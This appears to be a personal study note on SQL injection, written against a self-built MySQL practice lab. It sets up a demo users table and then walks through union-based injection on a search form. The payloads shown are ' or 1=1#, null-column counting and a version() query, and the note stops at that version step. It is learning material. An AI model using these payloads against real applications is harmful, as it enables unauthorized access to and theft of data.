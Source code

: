 <mark style="background: #FF5582A6;">SQL Injection (SQLi) is a type of security vulnerability that occurs when an attacker can manipulate a web application’s SQL queries by injecting malicious input. This can allow the attacker to gain unauthorized access to data, modify it, or even take control of the database.</mark>

First of all we need to setup the db adding some data in it
```bash
sudo systemctl start mysql
sudo mysql
```

```sql 
CREATE DATABASE sqldemo;

use sqldemo;

CREATE TABLE users (
username varchar(255),
password varchar(255),
age int,
PRIMARY KEY(username)
);

insert into users(username,password,age) values ("jeremy", "letmein",30);

insert into users(username,password,age) values ("jessamy", "kittems",31);

```


# Injection 0x01 UNION BASED
We can see on injection one a search form:
- ![[Pasted image 20241223150809.png]]
At this point we can try to test with different payload and if we use:
```
jeremy' or 1=1#
```
- it will print all the database info of the current table
- ![[Pasted image 20241223150946.png]]

So the app is vulnerable to SQLi.

We can start to retrieve info from other tables.

**==First we need to understand how many columns the current query chooses:==**
```sql
jeremy' union select null#
```
- we can see that with  `union select null,null,null#` it works, so we have 3 columns

## Version of the db
**==Now we can see the version of the db using:==**
```sql
jeremy' union select null,null,version()#
```
